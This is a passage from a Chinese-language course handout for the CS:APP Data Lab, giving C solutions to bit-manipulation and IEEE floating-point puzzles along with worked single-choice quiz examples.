–231 的位模式是 0xCF000000，e = 31，按上面的代码返回 0x80000000。这恰好就是 –231 的正确答案：INT_MIN 的位模式也是 0x80000000。所以这个“特例”不用单独处理，答案仍然正确。这也是很多解答把上界写成 e > 30（或 e ≥ 31）的原因。
3.15 float_negpwr2：计算 2–x#
float_negpwr2(x)：返回 2.0^{–x} 的位模式，x 为任意 32 位整数；结果太小、连非规格化数也表示不了时返回 0，太大时返回 +∞。上限 20，难度 4
2 的整数次幂的尾数只有一个 1，所以只需判断 2–x 落在哪个区间。规格化数的阶码 exp = 127 – x 必须在 1～254 之间，即 –127 ≤ x ≤ 126，这时位模式是 (127 - x) << 23。x < –127 时 2–x ≥ 2128，返回 +∞（0x7F800000）。x > 126 时进入非规格化区间：非规格化数是 frac × 2–149，所以 2–x = 2149–x × 2–149，frac 中只有第 149 – x 位为 1；这要求 149 – x ≥ 0，即 x ≤ 149。x > 149 时连最小的非规格化数 2–149 都表示不了，返回 0。
unsigned float_negpwr2(int x) {
if (x > 149) return 0;
if (x > 126) return 1 << (149 - x);
if (x < -127) return 0x7F800000;
return (127 - x) << 23;
}8 个操作符，其中 x < -127 算 2 个（< 和一元负号）。实测：x = 127 得 0x00400000，x = 126 得 0x00800000（最小的规格化数 2–126），x = –127 得 0x7F000000（2127），x = –128 得 +∞，x = 149 得 0x00000001，x = 150 得 0。
3.16 float_greater：浮点数比较#
float_greater(x, y)：返回浮点数 x > y 的结果（1 或 0），x、y 都以位模式给出。上限 45，难度 4
先排除两种特殊情况。只要有一个是 NaN，比较结果就是 0（NaN 与任何数比较都为假）；判断 NaN 只要看去掉符号位后是否大于 0x7F800000。+0 与 –0 相等，两者都为零时返回 0。
剩下的情况用第 2.9 节的“键”：非负浮点数的位模式按无符号数比较，顺序与数值顺序相同；负数正好相反，绝对值越大，数值越小。所以对非负数，把最高位置为 1（让它排在所有负数之上）；对负数，按位取反（绝对值越大，取反后越小，而且最高位变成 0）。变换后的键按无符号比较，顺序就与浮点数值的顺序一致。
unsigned float_greater(unsigned x, unsigned y) {
unsigned ax = x & 0x7FFFFFFF;
unsigned ay = y & 0x7FFFFFFF;
if (ax > 0x7F800000 || ay > 0x7F800000) return 0;
if (!(ax | ay)) return 0;
if (x >> 31) x = ~x; else x = x | 0x80000000;
if (y >> 31) y = ~y; else y = y | 0x80000000;
return x > y;
}14 个操作符，远低于上限 45。按符号、阶码、尾数逐层比较也可以，但分支很多，容易漏掉情况。键的方法还顺带处理了无穷：+∞ 的键是所有非 NaN 中最大的，–∞ 的键是最小的。
为什么必须单独处理 ±0？+0 的键是 0x80000000，–0 的键是 ~0x80000000 = 0x7FFFFFFF，不判断的话会得出 +0 > –0。这一点在测验中也常被问到。
第四部分 拓展：历年题库精选#
handout 的 BDD 检查器目录中有一份题库清单（all-functions.txt），列出了 Data Lab 历年用过的 99 道题，本学期从中选了 16 道。Lab 测验常从题库中出代码填空题（2025 年 5 题全部如此），所以本部分从题库中再选 16 道经典题，用第二部分的方法逐一解决。题目的功能和难度取自题库清单和 CS:APP 的公开版本；各年的操作符上限不尽相同，这里只给出本讲义解答实际用的个数（dlc 实测）。整数题都通过了 BDD 检查器的穷举验证；三道浮点题在全部 232 个输入上与硬件结果逐一比对过。
表 9 拓展题一览（难度取自题库清单；“允许”指常见版本允许的运算符）
| 函数 | 功能 | 允许 | 难度 | 解答 | 小节 |
|---|---|---|---|---|---|
| isTmax(x) | x 是否为 TMax | ! ~ & ^ | + | 2 | 6 | 4.1 |
| allOddBits(x) | 奇数位是否全为 1 | 8 个 | 2 | 7 | 4.2 |
| isAsciiDigit(x) | 0x30 ≤ x ≤ 0x39 | 8 个 | 3 | 7 | 4.3 |
| logicalNeg(x) | 不用 ! 实现 !x | ~ & ^ | + << >> | 4 | 5 | 4.4 |
| conditional(x,y,z) | x ? y : z | 8 个 | 3 | 7 | 4.5 |
| isLessOrEqual(x,y) | x ≤ y | 8 个 | 3 | 13 | 4.6 |
| howManyBits(x) | 表示 x 所需的最少补码位数 | 8 个 | 4 | 32 | 4.7 |
| byteSwap(x,n,m) | 交换第 n、m 个字节 | 8 个 | 2 | 10 | 4.8 |
| rotateLeft(x,n) | 循环左移 | 8 个 | 3 | 10 | 4.9 |
| fitsBits(x,n) | x 能否用 n 位补码表示 | 8 个 | 2 | 6 | 4.10 |
| isPower2(x) | x 是否为 2 的幂 | 8 个 | 4 | 8 | 4.11 |
| bitParity(x) | 1 的个数是否为奇数 | 8 个 | 4 | 11 | 4.12 |
| trueThreeFourths(x) | x × 3/4，向零舍入，不溢出 | 8 个 | 4 | 11 | 4.13 |
| float_neg(uf) | –f | 浮点规则 | 2 | 3 | 4.14 |
| float_i2f(x) | (float) x | 浮点规则 | 4 | 19 | 4.15 |
| float_half(uf) | 0.5 × f | 浮点规则 | 4 | 11 | 4.16 |
4.1 isTmax：判断 TMax#
TMax 有一个独特的性质：TMax + 1 = TMin = ~TMax。所以先算 y = x + 1，再看 y 是否等于 ~x。满足 x + 1 == ~x 的数有两个：TMax，以及 –1（–1 + 1 = 0 = ~(–1)）。用 !y 把 –1 排除掉：x = –1 时 y = 0。
int isTmax(int x) {
int y = x + 1;
return !((y ^ ~x) | !y);
}6 个操作符。这题依赖 TMax + 1 回绕为 TMin，按第 1.1 节，在 Lab 中这是允许的。
4.2 allOddBits：奇数位全为 1#
奇数位（第 1、3、…、31 位）全为 1，等价于 x & 0xAAAAAAAA 等于 0xAAAAAAAA。用第 2.2 节的方法拼出常数，再用 !(a ^ b) 判断相等。
int allOddBits(int x) {
int m = 0xAA | (0xAA << 8);
m = m | (m << 16);
return !((x & m) ^ m);
}7 个操作符。另一种思路是把 x 对半折叠：x & (x >> 16)，再 & (x >> 8)……把所有奇数位“与”到一个字节里，最后与 0xAA 比较。
4.3 isAsciiDigit：判断 ASCII 数字#
0x30 ≤ x ≤ 0x39 等价于 x – 0x30 ≥ 0 且 0x39 – x ≥ 0，两个差都非负，即两者“或”起来的符号位为 0。用 x + ~0x2F 表示 x – 0x30，用 0x3A + ~x 表示 0x39 – x（因为 ~0x2F = –0x30，~x = –x – 1）。
int isAsciiDigit(int x) {
int lo = x + ~0x2F;
int hi = 0x3A + ~x;
return !((lo | hi) >> 31);
}7 个操作符。这里有一个值得注意的地方：x 接近 TMin 时，x – 0x30 会溢出成正数，第一个检查失效。但此时 0x39 – x 同样会溢出，而且溢出成负数，第二个检查会把它拦下来：x – 0x30 溢出要求 x < TMin + 0x30，这时 0x39 – x 一定大于 231，必然溢出为负。x 接近 TMax 时两个差都不会溢出。所以不必单独处理溢出，BDD 检查器的穷举验证也通过了。实测 isAsciiDigit(TMin) = 0。
4.4 logicalNeg：不用 ! 实现逻辑非#
只有 0 满足“它和它的相反数的符号位都是 0”：x > 0 时 –x < 0；x < 0 时 x 本身为负；x = TMin 时 –x = TMin 也为负。所以 (x | -x) >> 31 在 x ≠ 0 时为 –1，在 x = 0 时为 0，再加 1 就得到 !x。
int logicalNeg(int x) {
return ((x | (~x + 1)) >> 31) + 1;
}5 个操作符。
4.5 conditional：条件表达式#
这是第 2.3 节选择手法的原型。!x 把 x 变成 0/1，~!x + 1 再变成掩码：x ≠ 0 时 !x = 0，掩码为全 0；x = 0 时掩码为全 1。掩码为全 0 时取 y，全 1 时取 z。
int conditional(int x, int y, int z) {
int m = ~!x + 1;
return (~m & y) | (m & z);
}7 个操作符。用 z ^ (~m & (y ^ z)) 的写法同样是 7 个，因为这里需要的是“非掩码取 y”，省下的一个 ~ 又加了回来；把掩码定义成 ~!!x + 1 再用这种写法也是 7 个。
4.6 isLessOrEqual：小于等于#
按第 2.4 节分两种情况。x 为负、y 非负时一定 x ≤ y；x、y 同号时，y – x 不会溢出，看它是否非负。x 非负、y 为负时，两项都为 0，结果为 0。
int isLessOrEqual(int x, int y) {
int sx = x >> 31;
int sy = y >> 31;
int diff = y + (~x + 1);
int same = !(sx ^ sy);
return (sx & !sy) | (same & !(diff >> 31));
}13 个操作符。sx 是 0 或 –1，!sy 是 0 或 1，两者相与得到 0 或 1，正好可以作为返回值。实测 isLessOrEqual(TMin, TMax) = 1，isLessOrEqual(TMax, TMin) = 0，这两组正是直接看 y – x 的符号会出错的输入。
4.7 howManyBits：最少需要几位#
题意是：用补码表示 x，最少需要几位。例如 12 需要 5 位（01100），–5 需要 4 位（1011），0 和 –1 都只需要 1 位，TMin 和 TMax 需要 32 位。思路分两步。第一步，负数取反：x 为负时，所需位数与 ~x 相同（例如 –5 = 1011 与 ~(–5) = 4 = 0100 都需要 4 位），所以先用 x ^ (x >> 31) 把 x 变成非负数。第二步，找最高位的 1 在第几位，答案再加 1（符号位）。找最高位用第 2.7 节的二分：先看高 16 位是否非零，是就记下 16 并把 x 右移 16 位，然后在剩下的 16 位里看高 8 位，依此类推。
int howManyBits(int x) {
int b16, b8, b4, b2, b1, b0;
x = x ^ (x >> 31);
b16 = !!(x >> 16) << 4;
x = x >> b16;
b8 = !!(x >> 8) << 3;
x = x >> b8;
b4 = !!(x >> 4) << 2;
x = x >> b4;
b2 = !!(x >> 2) << 1;
x = x >> b2;
b1 = !!(x >> 1);
x = x >> b1;
b0 = x;
return b16 + b8 + b4 + b2 + b1 + b0 + 1;
}32 个操作符。!!(x >> 16) << 4 在高 16 位非零时为 16，否则为 0，既是记下的位数，又是接下来右移的位数。最后 x 只剩 0 或 1，b0 = x 表示最低这一位是否为 1。实测 howManyBits(12) = 5、howManyBits(298) = 10、howManyBits(–5) = 4、howManyBits(0) = 1、howManyBits(–1) = 1、howManyBits(TMin) = 32。题库中的 ilog2（求 ⌊log2 x⌋）用的是同一套二分。
4.8 byteSwap：交换两个字节#
先取出两个字节的异或 t = (第 n 个字节) ^ (第 m 个字节)，再把 t 分别异或到两个位置上：第 n 个字节变成 bn ^ bn ^ bm = bm，第 m 个字节变成 bm ^ bn ^ bm = bn。这是“异或交换”在字节上的应用，不需要先清零再填入。
int byteSwap(int x, int n, int m) {
int sn = n << 3;
int sm = m << 3;
int t = ((x >> sn) ^ (x >> sm)) & 0xFF;
return x ^ (t << sn) ^ (t << sm);
}10 个操作符。n = m 时 t = 0，x 不变，正确。实测 byteSwap(0x12345678, 1, 3) = 0x56341278。
4.9 rotateLeft：循环左移#
循环左移 n 位，是 x << n 再“或”上 x 逻辑右移 32 – n 位的结果。逻辑右移用“算术右移 + 掩码”实现，掩码是低 n 位全 1，即 ~(~0 << n)。问题在于 n = 0 时移位量为 32（第 2.6 节），所以把右移拆成两步：先右移 1 位，再右移 31 – n 位，31 – n 用 32 + ~n 计算。
int rotateLeft(int x, int n) {
int low = ((x >> 1) >> (32 + ~n)) & ~(~0 << n);
return (x << n) | low;
}10 个操作符。n = 0 时，掩码 ~(~0 << 0) = 0，low = 0，结果就是 x。实测 rotateLeft(0x87654321, 4) = 0x76543218。
⚠ 只右移一次的写法在 x86-64 上碰巧也对
如果写成 (x >> (32 + ~n + 1)) & ~(~0 << n)，n = 0 时移位量为 32，属于未定义行为。在 x86-64 上，移位量被截成 0，x >> 32 得到 x，再与上全 0 的掩码，结果也是 0，所以 BDD 检查器和 btest 都可能通过。但这是依赖机器的巧合，在测验中遇到“这种写法是否正确”一类的选项时，应当指出它有未定义行为。
4.10 fitsBits：n 位补码能否表示#
x 能用 n 位补码表示，当且仅当把 x 截断到低 n 位、再符号扩展回 32 位后，值不变。截断再符号扩展可以用一次左移和一次算术右移完成：先左移 32 – n 位，把第 n – 1 位移到最高位，再算术右移回来。32 – n 写成 33 + ~n。
int fitsBits(int x, int n) {
int sh = 33 + ~n;
return !(((x << sh) >> sh) ^ x);
}6 个操作符。n 在 1～32 之间，所以 sh 在 0～31 之间，没有移位量越界的问题。实测 fitsBits(5, 3) = 0（3 位补码的范围是 –4～3），fitsBits(–4, 3) = 1。
4.11 isPower2：是否为 2 的幂#
按第 2.8 节，x 是 2 的幂当且仅当 x > 0 且 x & (x – 1) == 0。用 x + ~0 表示 x – 1；x > 0 拆成“不是负数”（符号掩码 s 为 0）和“不是 0”（!x 为 0）。三个条件都满足时，三项“或”起来为 0。
int isPower2(int x) {
int s = x >> 31;
return !((x & (x + ~0)) | s | !x);
}8 个操作符。TMin 只有一个 1，x & (x – 1) 也为 0，但它是负数，被 s 排除；实测 isPower2(TMin) = 0，isPower2(0) = 0。
4.12 bitParity：奇偶校验#
1 的个数的奇偶，就是所有位的异或。用第 2.7 节的“移位后异或”，每一步把高一半异或到低一半上，5 步后最低位就是全部 32 位的异或。
int bitParity(int x) {
x = x ^ (x >> 16);
x = x ^ (x >> 8);
x = x ^ (x >> 4);
x = x ^ (x >> 2);
x = x ^ (x >> 1);
return x & 1;
}11 个操作符。与第 3.5 节的 grayToBinary 对照：那里是从小到大移位（1、2、4、8、16），每一位都得到“它以上所有位”的前缀异或；这里是从大到小移位，只保证最低位是全部位的异或，其他位不管。两种顺序在最低位上的结果其实相同，但 bitParity 只关心最低位，所以哪种顺序都可以。
4.13 trueThreeFourths：精确的 3/4#
直接算 (x + x + x) >> 2 会有两个问题：3x 可能溢出；右移向下舍入，而题目要求向零舍入。解决溢出的办法是先除后乘：把 x 写成 x = 4q + r，其中 q = x >> 2，r = x & 3（0 ≤ r ≤ 3）。于是 3x/4 = 3q + 3r/4，3q 不会溢出，3r 最大为 9 也不会溢出。舍入只影响 3r/4 这一项：x 非负时向下舍入就是向零舍入，直接 (3r) >> 2；x 为负时要向上舍入，按第 3.8 节先加偏置 3 再右移。
int trueThreeFourths(int x) {
int q = x >> 2;
int r = x & 3;
int t = (r + r + r + ((x >> 31) & 3)) >> 2;
return q + q + q + t;
}11 个操作符。实测 trueThreeFourths(11) = 8，trueThreeFourths(–9) = –6，trueThreeFourths(TMax) = 1610612735，都与 (long long) x × 3 / 4 的结果相同。
4.14 float_neg：取负#
取负只需翻转符号位，唯一的例外是 NaN：按题意，NaN 要原样返回。去掉符号位后大于 0x7F800000 的就是 NaN。
unsigned float_neg(unsigned uf) {
if ((uf & 0x7FFFFFFF) > 0x7F800000) return uf;
return uf ^ 0x80000000;
}3 个操作符。+0 取负得 –0（0x80000000），–0 取负得 +0，无穷取负得到另一个方向的无穷，都只是翻转符号位。
4.15 float_i2f：整数转浮点#
这道题的难点是舍入。int 有 31 位有效数字，单精度浮点数只有 24 位（23 位尾数加隐含的 1），绝对值大于 224 的整数可能无法精确表示，要按“向偶数舍入”处理。步骤是：取符号，取绝对值（用 unsigned 存放，这样 TMin 的绝对值 231 也放得下）；把绝对值左移，直到最高位为 1，同时记录阶码；此时 32 位中最高位是隐含的 1，接下来 23 位是尾数，最低 8 位是要舍去的部分。舍去部分大于一半（0x80）时进位；正好等于一半时，看尾数的最低位，是 1 才进位（使结果为偶数）。
unsigned float_i2f(int x) {
unsigned s = 0, u = x, e = 158, frac, round;
if (!x) return 0;
if (x < 0) { s = 0x80000000; u = -u; }
while (!(u & 0x80000000)) { u = u << 1; e = e - 1; }
frac = (u >> 8) & 0x7FFFFF;
round = u & 0xFF;
if (round > 0x80 || (round == 0x80 && (frac & 1))) frac = frac + 1;
return s + (e << 23) + frac;
}19 个操作符。e 的初值 158 = 127 + 31：最高位在第 31 位时，值为 1.xxx × 231。最妙的是最后一行：尾数进位后可能变成 0x800000，即溢出到第 24 位。这时直接相加，进位会自动加到阶码上，尾数变成 0，正好是“尾数全 1 进位后，阶码加 1、尾数清零”的正确结果，不需要单独处理。实测 float_i2f(TMax) = 0x4F000000（231 – 1 舍入成 231），float_i2f(16777217) = 0x4B800000（224 + 1 正好在两个可表示数中间，舍入到偶数 224），float_i2f(16777219) = 0x4B800002（224 + 3 舍入到 224 + 4）。
4.16 float_half：浮点数除以 2#
规格化数除以 2 就是阶码减 1。但阶码为 1 的规格化数除以 2 后会变成非规格化数，而非规格化数除以 2 要把尾数右移一位，右移丢掉的那一位要按向偶数舍入。把这两种情况合在一起处理：阶码 ≤ 1 时，把去掉符号位的低 31 位整体右移一位，阶码的 1 会自动移进尾数的最高位；被移出的最低位如果是 1，而移位后的最低位也是 1，就要进位（向偶数舍入）。
unsigned float_half(unsigned uf) {
unsigned s = uf & 0x80000000;
unsigned e = uf & 0x7F800000;
unsigned rest = uf & 0x7FFFFFFF;
if (e == 0x7F800000) return uf;
if (e > 0x00800000) return uf - 0x00800000;
return s | ((rest >> 1) + ((rest & 3) == 3));
}11 个操作符。(rest & 3) == 3 表示最低两位都是 1：移出的位是 1（正好是一半），而保留的最低位也是 1（奇数），所以要进位到偶数。如果移出的位是 1 但保留的最低位是 0，已经是偶数，直接截断。实测 float_half(0x00000003) = 0x00000002（1.5 × 2–149 舍入成 2 × 2–149），float_half(0x00000001) = 0（0.5 × 2–149 舍入成偶数 0），float_half(0x00800001) = 0x00400000（阶码为 1 的规格化数变成非规格化数，并且舍入到偶数）。
第五部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。2025 年 Data Lab 的 5 道题全部是代码填空：给出题库中一个经典函数的解答，挖掉一个表达式、一个常数或一个运算符，从四个选项中选出能让函数正确的那一个。考到的 5 个函数都不在本学期的 16 道题里，而是题库中的其他题，其中 byteSwap、bitParity、float_half 收在第四部分（第 4.8、4.12、4.16 节）。这类题不需要背解答，需要的是第二部分的“零件”：认出符号掩码、布尔化、移位量 n << 3 这样的写法，再代入 0、1、–1、TMin、TMax 等关键值，把错误的选项一个个排除。
做单选题比做问答题多了一条路：四个选项里只有一个正确，所以既可以正面推出答案，也可以给每个选项找反例。找反例时，先试那几个最容易出问题的值：TMin（它的相反数是它自己）、TMax（加 1 就溢出）、0、移位量 0 或 31，浮点题则试 ±0、非规格化数、无穷、NaN 和最大的规格化数。本部分的例题按题型编排，每道题的四个选项都由程序逐一核对（sim/choice/dl_choice.c，用 -fwrapv 编译）。
5.1 读代码：判断函数在算什么#
读位运算代码时，先认出熟悉的零件，再用关键值检验。下面三题用的是同一种思路。
例 1（单选）下面的函数 f 在什么情况下返回 1？
A. x ≥ 0 B. x ≠ 0 C. x > 0 D. x < 0
int f(int x) { return !(x >> 31) & !!x; }答案
C
!(x >> 31) 在 x 非负时为 1，!!x 在 x 非零时为 1，两者相与，就是“非负且非零”，即 x > 0。A 漏掉了 !!x 的作用：x = 0 时 !(x >> 31) 为 1，但 !!0 为 0，函数返回 0，所以 A 不对。B 漏掉了符号的判断：x = –1 时函数返回 0。D 与 !(x >> 31) 的含义正好相反。
例 2（单选）下面的函数 g 计算的是什么？
A. |x|，其中 g(TMin) = TMin B. |x|，其中 g(TMin) = TMax C. –x D. ~x
int g(int x) { return (x ^ (x >> 31)) + ((x >> 31) & 1); }答案
A
x 非负时 x >> 31 为 0，结果是 x ^ 0 + 0 = x；x 为负时 x >> 31 为 –1，结果是 ~x + 1 = –x。所以 g 计算绝对值，这是第 2.1 节的第一种写法。代入 TMin：~TMin + 1 回绕成 TMin 本身，所以 g(TMin) = TMin（实测 0x80000000），B 错在以为结果会“饱和”到 TMax。C 只在 x 为负时成立，D 漏掉了加 1。
例 3（单选）下面的函数 h 返回 1 的条件是：
A. x 与 y 相等 B. x ^ y 是 0 或者 2 的幂 C. x 与 y 至少有一位不同 D. x 与 y 恰好有一位不同
int h(int x, int y) { int t = x ^ y; return !(t & (t + ~0)) & !!t; }答案
D
t 是 x 与 y 不同的那些位。t + ~0 就是 t – 1，t & (t – 1) 清除 t 最低位的 1，结果为 0 说明 t 至多有一个 1；!!t 再排除 t = 0。所以 h 判断 t 恰好有一个 1，即 x 与 y 恰好有一位不同。B 是最接近的干扰项：它描述的是 !(t & (t – 1)) 本身，漏掉了 !!t，x = y 时 h 返回 0 而 B 的条件成立。A 与 C 分别对应 t = 0 和 t ≠ 0，在 2 百万组输入的检验中都与 h 不一致。
5.2 代码填空#
填空题挖掉的通常是解答中最关键的一步。先想清楚这一步要得到什么，再看哪个选项能得到它；拿不准时，把每个选项代入一组具体的数检验。
例 4（单选）下面的 logicalShift 实现逻辑右移（0 ≤ n ≤ 31），空格处应填：
A. 0 B. 1 C. n D. 31
int logicalShift(int x, int n) {
return (x >> n) & ~(((1 << 31) >> n) << ____);
}答案
B
算术右移会在高 n 位补符号位，要用掩码把这 n 位清零（第 3.4 节）。TMin 算术右移 n 位后，高 n + 1 位是 1；再左移 1 位，恰好只剩高 n 位为 1，取反后与上去就清掉了它们。填 0 时多清了一位，第 31 – n 位被错误地清零；填 n 或 31 时掩码的位置都不对。程序对每个选项检验 20 万组随机的 x 和 n，只有 B 的错误次数为 0。
例 5（单选）divpwr2(x, n) 计算 x 除以 2 的 n 次幂，向零舍入（0 ≤ n ≤ 30）。空格处的偏置应为：
A. (1 << n) B. (1 << n) + ~0 C. ~(1 << n) D. n
int divpwr2(int x, int n) {
int bias = (x >> 31) & ____;
return (x + bias) >> n;
}答案
B
右移是向下取整，负数需要向零取整，所以负数要先加上 2n – 1 再移位（第 3.8 节）；(1 << n) + ~0 就是 2n – 1，它只对负数生效，因为 x >> 31 在 x 非负时是 0。A 多加了 1：x 是 2n 的整数倍时结果会大 1，例如 x = –8、n = 1 得 –3，正确结果是 –4；n = 0 时所有负数都会错。C 和 D 的偏置数值都不对，检验中大部分负数输入都出错。
例 6（单选）下面的 float_twice 返回 2 × f 的位模式。(1)、(2) 两处应分别填：
A. (1) uf + 0x00800000 (2) uf & 0xFF800000
B. (1) uf << 1 (2) 0x7F800000
C. (1) uf (2) uf & 0xFF800000
D. (1) uf << 1 (2) uf & 0xFF800000
unsigned float_twice(unsigned uf) {
unsigned exp = uf & 0x7F800000;
if (exp == 0x7F800000) return uf; /* NaN 与无穷 */
if (exp == 0) return (uf & 0x80000000) | (1); /* 非规格化数 */
uf = uf + 0x00800000; /* 阶码加 1 */
if ((uf & 0x7F800000) == 0x7F800000) uf = (2); /* 溢出成无穷 */
return uf;
}答案
D
非规格化数乘 2，只要把尾数左移一位；左移时尾数的最高位会进入阶码的最低位，正好得到最小的规格化数，不需要额外处理（第 3.13 节）。左移也会把符号位移出去，所以前面要用 uf & 0x80000000 把符号补回来。阶码加 1 后如果变成全 1，结果应当是无穷，必须清掉尾数，同时保留符号，所以 (2) 填 uf & 0xFF800000。程序在全部 232 个输入上与硬件的 f * 2 比较，D 没有一个不一致。B 把溢出的结果一律写成 +∞，负数溢出时丢了符号，错 223 个输入；C 让非规格化数原样返回，A 把非规格化数当成规格化数处理，两者在非规格化数上几乎全错。
例 7（单选）evenBits 返回所有偶数位（第 0、2、4……位）都为 1 的字，空格处应填：
A. 0x55 B. 0xAA C. 0x33 D. 0xFF
int evenBits(void) {
int byte = ____;
int word = byte | byte << 8;
return word | word << 16;
}答案
A
整数题只能用 0 到 0xFF 的常数，所以要先做出一个字节，再复制到四个字节（第 2.2 节）。0x55 = 0101 0101，第 0、2、4、6 位是 1，复制后得到 0x55555555。0xAA = 1010 1010，是所有奇数位为 1 的字节，这是题库中另一道题 oddBits 的答案（与第 4.2 节 allOddBits 用的是同一个掩码），也是这类题最常见的干扰项。0x33 是“每两位交替”的掩码（bitCount 中用到），0xFF 得到全 1。
例 8（单选）设 s = x + y（按补码回绕）。下面哪个表达式恰好在 x + y 溢出时为 1？
A. !!(((x ^ y) & (s ^ x)) >> 31)
B. !!((s ^ x) >> 31)
C. !!(((s ^ x) & (s ^ y)) >> 31)
D. !!(((x & y) ^ s) >> 31)
答案
C
只有同号相加才可能溢出，而溢出的标志是和的符号与两个加数都不同（第 3.10 节）。s ^ x 的符号位表示 s 与 x 异号，s ^ y 同理，两者相与，就是“和与 x、y 都异号”。B 只看和与 x：x = 1、y = –2 时和为 –1，与 x 异号但没有溢出。A 要求 x 与 y 异号，而异号相加恰恰不会溢出，它在 2 百万组输入中约一半出错。D 没有明确的含义，约四分之一的输入出错，B 也是约四分之一。
5.3 判断写法是否正确#
这类题给出一种看上去对的写法，问它在哪个输入上出错，或者问几种说法中哪一种正确。反例几乎总在溢出、TMin、移位量的边界和浮点的特殊值上。
例 9（单选）有人用下面的 le 判断 x ≤ y。哪一组输入能说明它是错误的？
A. x = –1，y = 0 B. x = TMax，y = –1 C. x = 0，y = 0 D. x = TMin，y = TMax
int le(int x, int y) { return !((y + ~x + 1) >> 31); }答案
D
这个写法用 y – x 的符号判断大小，但 y – x 可能溢出。x = TMin、y = TMax 时，y – x 回绕成 –1，函数返回 0，而 TMin ≤ TMax 应返回 1。B 是最容易误选的：y – x = –1 – TMax 恰好等于 TMin，没有溢出，符号为负，函数返回 0，而 TMax ≤ –1 本来就不成立，结果是对的。C、A 的差都很小，不会溢出，结果也都正确。正确的写法要先比较符号，见第 4.6 节。
例 10（单选）下面的 twice 想计算 2 × f 的位模式，但忘了处理一种情况。哪个输入会得到错误的结果？
A. 0x00400000 B. 0x7F7FFFFF C. 0x80000000 D. 0x7F800000
unsigned twice(unsigned uf) {
unsigned e = uf & 0x7F800000;
if (e == 0x7F800000) return uf;
if (e == 0) return (uf & 0x80000000) | (uf << 1);
return uf + 0x00800000;
}答案
B
0x7F7FFFFF 是最大的规格化数，乘 2 应溢出成 +∞（0x7F800000）。这个函数只把阶码加 1，得到 0x7FFFFFFF：阶码全 1 而尾数不为 0，是 NaN。它与例 6 相比，少的正是 (2) 那一行。A 是非规格化数 2–127，左移一位得到 0x00800000，正好是最小的规格化数 2–126，结果正确；C 是 –0，D 是 +∞，两者乘 2 都不变，函数也都返回原值。
5.4 规则与操作符计数#
writeup 里的编码规则和 dlc 的计数方式也会单独出题（第 1.1、1.3 节）。
例 11（单选）关于下面两个函数体，说法正确的一项是：
A. (a) 有 5 个操作符，没有超过 isEqual 的上限 5
B. (b) 中的 += 是赋值，不计入操作符
C. (a) 有 6 个操作符，dlc 会给出超限警告，这道题的性能分为 0，正确性分不受影响
D. (b) 不能通过 dlc，因为 int a = x >> 31; 是声明语句中的运算，dlc 禁止这种写法
/* (a) */ return !(x ^ y) | ((~x + 1) >> 31);
/* (b) */ int a = x >> 31;
a += ~y;
return a & !a;答案
C
(a) 用了 !、^、|、~、+、>>，共 6 个，超过上限，dlc 报告“6 operators exceeds max of 5”；按评分规则，超限只影响这道题的性能分，正确性分照常计算（第 1.4 节）。A 少数了一个。B 不对：复合赋值中的运算要计 1 个操作符，(b) 共有 >>、+、~、&、! 5 个。D 也不对：声明时可以用表达式赋初值，dlc 只要求所有声明写在语句之前，(b) 满足这一点。以上计数都经 dlc 实测。
例 12（单选）在整数题中，下面哪一种写法能通过 dlc 的检查？
A. int a = x; a += 1; return a; B. return x == 1; C. return x + 256; D. return (unsigned) x >> 1;
答案
A
整数题只允许 0 到 0xFF 的常数，256 超出范围，dlc 报“Illegal constant (256)”，所以 C 不行。比较运算在整数题中被禁止，B 报“Illegal operator”。强制类型转换和 unsigned 类型都被禁止，D 报“Illegal data type”和“Illegal cast”。A 先声明、后写语句，用的都是允许的运算，能通过检查，并且计 1 个操作符（第 1.3 节的表）。注意 dlc 与 gcc 的差别：如果把声明写在语句之后，gcc 能编译，dlc 却报语法错误。
5.5 浮点位模式的计算#
浮点计算题通常给一个位模式，问函数的返回值。做法是先按第 2.9 节分类，再按规则算出结果，最后编码回位模式。选项往往包括“没有舍入”“舍入方向错了”“符号或阶码错了一位”这几种结果。
例 13（单选）float_f2i(0xC0B00000) 的返回值是：
A. –6 B. –5 C. 5 D. 0x80000000
答案
B
符号为 1，阶码 0x81 = 129，e = 2，尾数 0x300000 表示 0.375，值为 –1.375 × 4 = –5.5。float_f2i 向零舍入，得 –5。A 是向下取整的结果，把“向零”误当成“向负无穷”时会选它；C 丢了符号；D 是超出范围或 NaN 时的返回值，–5.5 显然在 int 的范围之内。
例 14（单选）float_i2f(–16777217) 的返回值是：
A. 0xCB7FFFFF B. 0xCB800001 C. 0x4B800000 D. 0xCB800000
答案
D
|x| = 224 + 1，需要 25 位有效数字，而 float 只有 24 位，最低一位必须舍去（第 4.15 节）。舍去的正好是一半，按向偶数舍入的规则，舍入到尾数为偶数的 224，结果为 –224，即 0xCB800000，与硬件的转换结果一致。B 表示 –16777218，是向远离零的方向舍入的结果；C 丢了符号；A 的阶码少了 1，表示的是一个绝对值小于 224 的数。
第六部分 速查与自测#
6.1 一页纸速查#
表 10 16 道题的核心思路
| 函数 | 核心思路 | 关键式子 |
|---|---|---|
| bitXor | 德摩根：x ^ y = (x | y) & ~(x & y) | ~(x & y) & ~(~x & ~y) |
| leastBitPos | –x 与 x 只在最低位的 1 上同为 1 | x & (~x + 1) |
| getByte | 移到最低字节再截取；必须与 0xFF | (x >> (n << 3)) & 0xFF |
| logicalShift | 算术右移后清掉高 n 位 | ~(((1 << 31) >> n) << 1) |
| grayToBinary | 前缀异或，移位 1、2、4、8、16 | x ^= x >> k |
| bitCount | 相邻段相加：2、4、8 位计数器，最后 & 0x3F | 3 个重复字节常数 |
| isEqual | 逐位相同 | !(x ^ y) |
| divpwr2 | 负数加偏置 2n – 1 再右移 | (x >> 31) & ((1 << n) + ~0) |
| sign | 符号掩码或上“非零” | (x >> 31) | !!x |
| addOK | 和与两个加数都异号才溢出 | !(((x ^ s) & (y ^ s)) >> 31) |
| absVal | 负数时先减 1 再取反 | (x + m) ^ m，m = x >> 31 |
| satSub | 减法溢出看 (x ^ y) & (x ^ d)；饱和值由 x 的符号决定 | d ^ (of & (d ^ sat)) |
| float_twice | NaN/∞ 原样；非规格化左移；规格化阶码加 1，溢出时清尾数 | + 0x00800000 |
| float_f2i | e < 0 得 0；e > 30 越界；补隐含 1 后按 e 移位，再取负 | e = exp - 127 |
| float_negpwr2 | 按 x 分四段：0、非规格化、规格化、∞ | (127 - x) << 23 |
| float_greater | 排除 NaN 和 ±0；非负置最高位、负数取反，按无符号比较 | 键变换 |
6.2 易错点#
